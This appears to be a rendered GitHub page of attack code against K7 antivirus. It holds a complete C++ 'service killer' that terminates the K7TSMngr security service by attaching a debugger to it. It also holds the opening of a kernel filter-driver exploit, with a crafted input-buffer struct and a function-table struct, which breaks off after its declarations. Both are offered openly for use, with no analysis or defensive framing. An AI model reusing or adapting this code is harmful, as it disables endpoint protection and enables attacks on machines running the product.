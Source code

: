 
Service Killer Code:
```C++
// Launch this as system with the PID of the K7TSMngr service and it will kill it
#include <Windows.h>
#include <stdio.h>
#include <tlhelp32.h>

int wmain(int argc, wchar_t** argv)
{
	HANDLE hProcess = NULL;

	if (argc != 2)
	{
		printf("Usage: <Pid>\r\n");
		return 0;
	}
	
	DWORD dwPid = wcstoul(argv[1], NULL, 10);

	//
	// Open the process for debugging, when we exit the process will die :)
	//
	if (!DebugActiveProcess(dwPid))
	{
		printf("Error: DebugActiveProcess failed: 0x%08x\r\n", GetLastError());
	}

	return 0;
}

````
Exploit Code:

```C++
#include <Windows.h>
#include <stdio.h>
#include <Psapi.h>
#include <fltUser.h>

#pragma comment(lib, "FltLib.lib")

#pragma pack(push)
#pragma pack(1)

typedef struct _INBUFFER_95002558
{
	BYTE arrPadding[0x14];
	BYTE bMustBeK;
	BYTE Padding_16;
	BYTE b0orFF;
	BYTE arrPadding604[602];
} INBUFFER_95002558, *PINBUFFER_95002558;

typedef struct _UNK9
{
	DWORD offset_0;
	DWORD function_ReadFile;
	DWORD function_WriteFile;
	DWORD function_SetInformationFile;
	DWORD function_Query;
} UNK9, *PUNK9;


LPVOID g_k7Base = NULL;
```